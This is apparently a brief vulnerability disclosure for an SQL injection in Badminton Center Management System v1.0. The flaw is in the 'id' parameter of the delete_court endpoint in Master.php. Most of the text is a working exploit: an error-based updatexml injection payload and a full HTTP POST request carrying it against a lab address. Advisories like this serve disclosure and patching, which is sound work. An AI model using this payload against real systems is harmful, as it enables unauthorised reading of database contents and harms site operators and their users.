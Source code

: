 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/classes/Master.php?f=delete_court

Vulnerability location: /bcms/classes/Master.php?f=delete_court, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /bcms/classes/Master.php?f=delete_court HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/bcms/admin/?page=courts
Content-Length: 65
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170614766-51304593-86c9-465d-84c9-a8b6b3a99187.png)
